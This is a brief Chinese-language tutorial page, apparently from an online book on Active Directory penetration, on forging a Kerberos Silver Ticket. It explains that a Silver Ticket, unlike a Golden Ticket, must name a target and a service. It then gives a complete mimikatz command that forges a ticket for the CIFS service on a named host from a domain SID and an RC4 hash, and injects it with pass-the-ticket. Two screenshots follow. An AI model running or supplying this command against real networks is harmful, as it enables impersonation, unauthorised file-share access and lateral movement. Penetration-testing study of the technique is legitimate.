 > 原文：[http://book.iwonder.run/域渗透/5.2.2.html](http://book.iwonder.run/域渗透/5.2.2.html)

### 5.2.2 白银票据的利用

在黄金票据中我们可以不指定 target 和 service，但是在白银票据中必须指定 target 和 service

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4:22eec3fbe7191bdcf1e5819f8bdcd951 /user:aaa /ptt" 
```

![image](img/d9772b11d5a4b212e00b4d137e9b0d76.png)

![image](img/9048ec86c51e82ebb6e84d1625bf8a79.png)


